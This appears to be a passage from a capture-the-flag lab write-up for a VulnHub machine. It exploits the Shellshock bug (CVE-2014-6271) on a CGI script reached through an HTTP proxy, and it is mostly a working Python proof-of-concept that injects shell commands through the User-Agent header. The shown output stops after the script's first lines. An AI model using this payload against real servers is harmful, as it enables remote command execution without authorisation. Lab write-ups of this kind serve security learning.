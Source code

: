 
## Exploitation
Since Nikto told me there was a vulnerability call **ShellShock (CVE-2014-6271)** on /cgi-bin/status but I was not going to use this vulnerability because it could be too easy and didn't challege me.

###  Shellshock PoC
Befor testing, proxy on the system must be configured
```
export http_proxy="http://p192.168.159.131:3128"
```

This is my PoC script of ShellShock (find more information about shellshock[link](https://access.redhat.com/articles/1200223))
```python
import sys
import httplib2
from urllib import urlencode
import time
import socket

def send(fullURL,headers):
    # http = httplib2.Http()
    http = httplib2.Http(proxy_info = httplib2.ProxyInfo(httplib2.socks.PROXY_TYPE_HTTP_NO_TUNNEL, '192.168.159.131', 3128) )
    body = {}
    response, content = http.request(fullURL, 'GET', headers=headers, body=urlencode(body))
    return (content)


fullURL = "http://192.168.159.131/cgi-bin/status"
host = "192.168.159.131"
print ("[*] Full : " + fullURL)


print "-------------------------------"
print "[*] Testing ... "

try:
	command = "/usr/bin/id"
	header = '() { xxxxxxxxxxxxxxxxxx; }; echo ; echo ; '+command+';'
	headers = {'User-Agent': header, 'Host': "" + host }
	print "[*] Type 1 >> " + header
	print "[*] Executing command:" + command
	content = send(fullURL,headers)
	print str(content)
except (httplib2.HttpLib2Error,socket.error) as ex:
    print '[!] Checking ' + fullURL + ' >> ' + "error, check url"

try:
	command = "/usr/bin/whoami"
	header = '() { :; }; echo ; echo ; /bin/bash -c  '+command+';'
	headers = {'User-Agent': header, 'Host': "" + host }
	print "[*] Type 2 >> " + header
	print "[*] Executing command:" + command
	content = send(fullURL,headers)
	print str(content)
except (httplib2.HttpLib2Error,socket.error) as ex:
    print '[!] Checking ' + fullURL + ' >> ' + "error, check url"
```
And of course the web site was vulnerable!!!
```
root@BOEING:/kapi/vulnhub/sic0s1.1# python shellshock.py 
[*] Full : http://192.168.159.131/cgi-bin/status
-------------------------------
```